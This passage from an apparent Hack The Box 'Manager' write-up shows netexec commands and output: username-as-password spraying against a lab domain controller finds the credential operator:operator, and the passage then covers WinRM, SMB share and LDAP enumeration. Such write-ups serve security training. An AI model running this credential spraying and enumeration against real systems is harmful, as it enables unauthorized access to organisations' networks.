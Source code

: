 ```
SMB         10.10.11.236    445    DC01             [-] manager.htb\jinwoo:jinwoo STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\chinhae:chinhae STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator

```

The operator account uses the password operator! It doesn’t work over WinRM, so no shell from here:

```
oxdf@hacky$ netexec winrm manager.htb -u operator -p operator
WINRM       10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
WINRM       10.10.11.236    5985   DC01             [-] manager.htb\operator:operator

```

### Enumeration as operator

#### SMB

The shares on Management are the standard DC shares:

```
oxdf@hacky$ netexec smb manager.htb -u operator -p operator --shares
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator
SMB         10.10.11.236    445    DC01             [*] Enumerated shares
SMB         10.10.11.236    445    DC01             Share           Permissions     Remark
SMB         10.10.11.236    445    DC01             -----           -----------     ------
SMB         10.10.11.236    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.236    445    DC01             C$                              Default share
SMB         10.10.11.236    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.236    445    DC01             NETLOGON        READ            Logon server share
SMB         10.10.11.236    445    DC01             SYSVOL          READ            Logon server share

```

There’s nothing too interesting in these.

#### LDAP

The operator account does have LDAP access:

```
oxdf@hacky$ netexec ldap manager.htb -u operator -p operator
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.236    389    DC01             [+] manager.htb\operator:operator

```
